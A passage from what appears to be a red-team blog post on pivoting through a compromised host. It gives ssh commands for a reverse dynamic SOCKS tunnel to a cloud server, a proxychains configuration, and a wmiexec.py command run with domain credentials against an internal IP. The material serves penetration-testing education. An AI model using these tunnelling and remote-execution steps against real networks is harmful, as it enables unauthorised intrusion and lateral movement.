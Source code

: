 While I could go into detail on how to apply this directly to a specific C2, that isn't what this post is about, pivoting is a networking concept that supercedes a single brand of C2 so I want to keep this general. Instead I'll try to go into a bit more detail on how to conceptually apply this to an engagement, since I know most people are not huge fans of networking.
Back to the ascii drawing board:

```
[My attack laptop] ---ssh---> [Cloud Server] <---reverse dynamic socks tunnel---[Compromised Host]  

            ssh  -D 7777  user@cloudserv               ssh -R 8080 user@cloudserv 

```
Great, so how would I setup proxychains to leverage this?

```
# Contents of /etc/proxychains.conf, truncated for brevity
[ProxyList]
socks4  127.0.0.1 7777
socks4  127.0.0.1 8080 # from the perspective of the second hop (cloudserv), this port is on 127.0.0.1
```

Then we can simply run:

```
proxychains wmiexec.py domain/user:"password"@internal_ip
```

Then we get the following result:
![powershell](images/proxychains-working.png)
